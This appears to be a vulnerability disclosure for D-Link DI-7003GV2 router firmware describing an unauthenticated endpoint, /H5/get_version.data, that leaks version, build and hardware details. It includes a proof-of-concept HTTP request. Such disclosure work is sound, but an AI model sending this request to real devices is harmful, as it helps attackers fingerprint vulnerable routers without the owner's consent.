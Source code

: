 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an information disclosure vulnerability in the `/H5/get_version.data` endpoint. This unauthenticated interface allows remote attackers to retrieve sensitive device information, including firmware version, build time, RAM status, and hardware configuration. 

# Vulnerability details

The processing function for the `H5/get_version.data` interface is `sub_48FE9C`

![图 0](img/07c856d6ed7b63a69d08a8514aca00ddf613c6ec82d1e57714947040301bfc83.png)  

`sub_48FE9C` function returns device name, version, and other information to the user.

![图 1](img/cdca093491135789e8193462ed8a4a2d938339815046af9f95daf312be4243f4.png)  


# Poc

```http
GET /H5/get_version.data HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 2](img/e1460c2e6ed239e4210b00060accac944098385796adce26d4965981c122a773.png)  
